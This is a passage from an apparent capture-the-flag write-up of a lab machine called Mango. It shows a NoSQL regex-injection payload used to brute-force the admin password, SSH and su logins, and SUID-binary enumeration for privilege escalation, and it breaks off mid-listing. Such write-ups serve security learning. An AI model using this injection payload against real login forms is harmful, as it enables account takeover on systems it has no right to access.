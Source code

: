 `username=admin&password[%24regex]=§a§.{12}&login=login`

# Getting user

The admin password is working. But we cannot use it to connect using SSH. We
need to find the other user. After some guessing we found that the other user is
simply "mango". We can then connect to the box using SSH and the previous
password.

The user flag is not in the mango user home folder. We need to login as the
admin user. A simple `su admin` with the previously found password do the trick.

    :::text
    mango@mango:~$ su admin
    Password: 
    $ cd
    $ ls
    jjs  user.txt
    $ cat user.txt
    79bf31<redacted>

# Getting root

We start enumerating the box for privileges escalation. Listing our `sudo` right
and the SUID binaries.

    :::text
    admin@mango:/home/admin$ sudo -l
    [sudo] password for admin: 
    Sorry, user admin may not run sudo on mango.
    admin@mango:/home/admin$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
    -rwsr-xr-x 1 root root 30800 Aug 11  2016 /bin/fusermount
    -rwsr-xr-x 1 root root 43088 Oct 15  2018 /bin/mount
    -rwsr-xr-x 1 root root 26696 Oct 15  2018 /bin/umount
    -rwsr-xr-x 1 root root 44664 Jan 25  2018 /bin/su
    -rwsr-xr-x 1 root root 64424 Mar  9  2017 /bin/ping
    -rwsr-xr-x 1 root root 40152 May 15  2019 /snap/core/7713/bin/mount
    -rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/7713/bin/ping
    -rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/7713/bin/ping6
    -rwsr-xr-x 1 root root 40128 Mar 25  2019 /snap/core/7713/bin/su
    -rwsr-xr-x 1 root root 27608 May 15  2019 /snap/core/7713/bin/umount
    -rwsr-xr-x 1 root root 71824 Mar 25  2019 /snap/core/7713/usr/bin/chfn
    -rwsr-xr-x 1 root root 40432 Mar 25  2019 /snap/core/7713/usr/bin/chsh
    -rwsr-xr-x 1 root root 75304 Mar 25  2019 /snap/core/7713/usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39904 Mar 25  2019 /snap/core/7713/usr/bin/newgrp
    -rwsr-xr-x 1 root root 54256 Mar 25  2019 /snap/core/7713/usr/bin/passwd
    -rwsr-xr-x 1 root root 136808 Jun 10 22:53 /snap/core/7713/usr/bin/sudo
    -rwsr-xr-- 1 root systemd-resolve 42992 Jun 10 19:46 /snap/core/7713/usr/lib/dbus-1.0/dbus-daemon-launch-helper
    -rwsr-xr-x 1 root root 428240 Mar  4  2019 /snap/core/7713/usr/lib/openssh/ssh-keysign
    -rwsr-sr-x 1 root root 106696 Aug 30 07:09 /snap/core/7713/usr/lib/snapd/snap-confine
    -rwsr-xr-- 1 root dip 394984 Jun 12  2018 /snap/core/7713/usr/sbin/pppd
    -rwsr-xr-x 1 root root 40152 May 16  2018 /snap/core/6350/bin/mount
    -rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/6350/bin/ping
    -rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/6350/bin/ping6
    -rwsr-xr-x 1 root root 40128 May 17  2017 /snap/core/6350/bin/su
    -rwsr-xr-x 1 root root 27608 May 16  2018 /snap/core/6350/bin/umount
    -rwsr-xr-x 1 root root 71824 May 17  2017 /snap/core/6350/usr/bin/chfn
    -rwsr-xr-x 1 root root 40432 May 17  2017 /snap/core/6350/usr/bin/chsh
    -rwsr-xr-x 1 root root 75304 May 17  2017 /snap/core/6350/usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39904 May 17  2017 /snap/core/6350/usr/bin/newgrp
    -rwsr-xr-x 1 root root 54256 May 17  2017 /snap/core/6350/usr/bin/passwd
    -rwsr-xr-x 1 root root 136808 Jul  4  2017 /snap/core/6350/usr/bin/sudo